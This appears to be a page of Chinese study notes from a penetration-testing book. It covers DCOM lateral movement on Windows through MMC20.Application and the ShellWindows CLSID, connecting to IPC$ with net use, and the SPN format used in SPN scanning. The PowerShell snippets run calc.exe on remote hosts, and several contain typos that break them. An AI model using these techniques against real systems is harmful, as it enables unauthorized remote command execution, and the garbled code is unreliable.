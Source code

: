 	smbexec
	```
	+ 工具说明(254页)
## 5.9 DCOM在远程系统中的使用
> DCOM(分布式组建对象模型)是微软的一系列概念和程序接口,通过DCOM,客户端程序对象能够向网络中的另一台计算机上的服务器程序对象发送请求
### 5.9.1 通过本地DCOM执行命令
+ 获取DCOM程序列表
	+ powershell
	1. windows2012+
	> Get-CimInstance默认只在powershell3.0以上版本中存在,也就是说只有windows2012及以上才可以使用
	```
	Get-CimInstance Win32_DCOMApplication
	```
	2. windows7,2008
	> 默认powershell2.0
	```
	Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication
	```
+ 使用DCOM执行任意命令
```powershell
//本地以管理员权限启动powershell
$com = [acrivator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application",127.0.0.1))
//以当前会话执行administrato权限的calc.exe
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimzed")
```
### 5.9.2 使用dcom在远程计算机上执行命令
> 适用于windows7-10,2008-2016
+ 建立与目标计算机的IPC$连接
`net use \\ip "密码" /user:域名\用户`
+ 执行命令
	1. 调用MMC20.Application远程执行命令
	```poeweshell
	$com = 			[acrivator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application",目标IP))
	//以当前会话执行administrato权限的calc.exe
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimzed")
	```
	2. 调用9BA05972-F6A8-11CF-A442-00A0C90A8F39
	```powershell
	$com = [type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"目标IP")
	$obj = [System.Activator]::VreateInstance($com)
	$item = $obj.item()
	$item.Document.Application.ShellExecute("cmd.exe","/c cala.exe","C:\windows\system32",$null,0)
	```
## 5.10 SPN在域环境中的应用
### 5.10.1 SPN扫描
+ 相关概念(262页)
SNP命令格式如下
`SPN = serviceclass "/" hostname {":"port} {"/" servicename}`
|参数|是否必选|说明|
|----|----|----|
|serviceclass|必选|服务组件的名称|
|hostname|必选|以"/"与后面的名称分隔,是计算机的FQDN(全限定域名,同时带有计算机名和域名)|
|port|非必选|以冒号分隔,后面的内容为该服务监听的端口号|
|servicename|非必选|一个字符串,可以是服务的专用名称(DN),objectcuid,internet主机名或全限定域名|
+ 常见SNP服务
MSSQL服务的示例代码如下
`MSSQLSvc/computer1.pentest.com:1433`